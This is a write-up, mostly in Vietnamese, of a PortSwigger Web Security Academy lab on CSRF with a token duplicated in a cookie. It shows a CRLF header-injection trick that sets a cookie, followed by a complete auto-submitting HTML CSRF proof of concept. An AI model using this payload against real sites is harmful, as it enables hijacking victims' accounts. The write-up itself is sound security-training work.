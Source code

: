 ### Web Academy PortSwigger
* Lab: [Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)
* Descript: This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
* To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
* Solved and Writeup by Me ^^!

![Ảnh chụp màn hình 2023-11-30 232648](https://hackmd.io/_uploads/BkUliIUS6.png)

Truy cập bài lab, ta có giao diện như bên dưới.
![Ảnh chụp màn hình 2023-12-01 015934](https://hackmd.io/_uploads/ryG3o8Ir6.png)

Sau khi đăng nhập với user wiener , ta thực hiện thay đổi email và chặn request để phân tích :  
![Ảnh chụp màn hình 2023-12-01 020314](https://hackmd.io/_uploads/SJWs3LUHT.png)

---
![Ảnh chụp màn hình 2023-12-01 020335](https://hackmd.io/_uploads/HJy3n8LH6.png)
Ta thấy csrf token có cả trong Head request và cả phần Body của request với cùng một giá trị. Send it to Repeater và kiểm tra.    

Chỉnh sửa session , và gửi , ta sẽ bị lock out khỏi tài khoản hiện tại : 

![Ảnh chụp màn hình 2023-12-01 020859](https://hackmd.io/_uploads/S14HlDUBp.png)

Chỉnh sửa 1 giá trị csrf thì trả về Invalid CSRF Token , chỉnh sửa cả 2 thì request được chấp nhận :  

![Ảnh chụp màn hình 2023-12-01 022123](https://hackmd.io/_uploads/SJiagv8B6.png)

Xem qua search function ,search thử và test trong Repeater:  

![Ảnh chụp màn hình 2023-12-01 022405](https://hackmd.io/_uploads/r1eOWPLHT.png)

Ta thấy search term xuất hiện trong phản hồi . Ta có ý tưởng break-out khỏi dòng và chèn Set-Cookie nhằm sửa csrf token :  

![Ảnh chụp màn hình 2023-12-01 022708](https://hackmd.io/_uploads/SJOXGvIBa.png)

Quả nhiên , dữ liệu trong search term không được sàng lọc , và trong response , ta thấy Set-Cookie đặt csrf=haha🤔.

Thực hiện tạo html page attack với CSRF PoC :  





```
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0a50007a04e367218348d74d007900c6.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="trantung15343@gmail.com" />

      <input type="hidden" name="csrf" value="olala" />

      <input type="submit" value="Submit request" />

    </form>

    <img src="https://0a50007a04e367218348d74d007900c6.web-security-academy.net/?search=Nothing%0d%0aSet-Cookie:%20csrf=olala" 

				 onerror="document.forms[0].submit()">

  </body>

</html>
```
Go to Exploit Server , paste and deliver to victim :  

![Ảnh chụp màn hình 2023-12-01 024646](https://hackmd.io/_uploads/BkwBwwLSa.png)

Lab đã được giải quyết , ta thấy email đã bị thay đổi thành trantung15343@gmail.com😊.





